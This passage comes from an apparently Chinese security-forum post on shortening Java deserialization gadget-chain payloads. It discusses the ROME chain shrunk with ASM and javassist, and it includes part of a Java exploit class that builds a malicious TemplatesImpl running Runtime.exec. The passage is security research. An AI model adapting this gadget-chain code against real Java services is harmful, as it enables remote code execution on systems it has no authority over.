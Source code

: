 不过整合之后会显得长一些。

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/02/attach-8ee68eb417fd3604482fe145f0074afb77b1b2aa.png)

太绝了，这条链子太绝了呜呜呜，套个 ASM 试了一下，能到1356

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/02/attach-653948e4c2885a97b33f1c39349924f4c819e44f.png)

### 方法2

核心思想：**序列化对象中携带的一些属性是反序列的时候用不到的**

这里前面的操作就基本上和 4ra1n 师傅的一致了

用的就是常规的 ROME 链，利用 ASM 以及 javassist 以及 简短一些名称 进行了缩短之后的长度为 2080

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/02/attach-b20492980610323526966baf890c2bfe65aab5c4.png)

exp:

```java
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.org.apache.xerces.internal.impl.dv.util.Base64;
import com.sun.syndication.feed.impl.EqualsBean;
import com.sun.syndication.feed.impl.ObjectBean;
import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;
import com.test.asm.Resolver;
import javassist.*;
public class ROMEtest2 {
    private static TemplatesImpl getTemplatesImpl() {
        TemplatesImpl templates = null;
        try {
            templates = TemplatesImpl.class.newInstance();
            ClassPool classPool = ClassPool.getDefault();
            classPool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
            CtClass clazz = classPool.makeClass("a");
            String string = "java.lang.Runtime.getRuntime().exec(\"calc\");";
            clazz.makeClassInitializer().insertAfter(string);
            CtClass superC = classPool.get(AbstractTranslet.class.getName());
            clazz.setSuperclass(superC);
            final byte[] classBytes = Resolver.resolve(clazz.toBytecode());
            Field bcField = TemplatesImpl.class.getDeclaredField("_bytecodes");
            bcField.setAccessible(true);
            bcField.set(templates, new byte[][] {classBytes});
            Field nameField = TemplatesImpl.class.getDeclaredField("_name");
            nameField.setAccessible(true);
            nameField.set(templates, "a");
            clazz.writeFile();
            return templates;
        } catch (InstantiationException e) {
            e.printStackTrace();
        } catch (Exception e) {
            e.printStackTrace();
        }
        return templates;
    }
    public static void setFieldValue(Object obj, String fieldname, Object value) throws Exception{
        Field field = obj.getClass().getDeclaredField(fieldname);
        field.setAccessible(true);
        field.set(obj,value);
    }
```